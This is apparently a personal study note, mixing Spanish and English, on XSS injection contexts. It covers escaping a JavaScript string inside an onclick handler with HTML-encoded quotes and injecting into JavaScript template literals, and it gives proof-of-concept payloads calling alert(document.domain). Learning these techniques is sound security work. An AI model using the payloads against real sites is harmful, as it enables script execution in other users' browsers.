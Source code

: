 ### Usando el URL encode

For example, if the XSS context is as follows:

```
<a href="#" onclick="... var input='controllable data here'; ...">
```
```

&apos;-alert(document.domain)-&apos;

````

### Contexto de Plantillas literales ( JavaScript template literals )

> Las plantillas literales son cadenas literales que habilitan el uso de expresiones incrustadas. Con ellas, es posible utilizar cadenas de caracteres de más de una línea, y funcionalidades de interpolación de cadenas de caracteres.

```
`texto de cadena de caracteres`

`línea 1 de la cadena de caracteres
 línea 2 de la cadena de caracteres`

`texto de cadena de caracteres ${expresión} texto adicional`

etiqueta`texto de cadena de caracteres ${expresión} texto adicional`

````

For example, the following script will print a welcome message that includes the user's display name:

```

document.getElementById('message').innerText = `Welcome, ${user.displayName}.`;

``` 

```
<script>
...
var input = `controllable data here`;
...
</script>

```

```
${alert(document.domain)}

```
y se ejcutaria el codigo js

### XSS in the context of the AngularJS sandbox (pendiente hasta que no domines mas esto
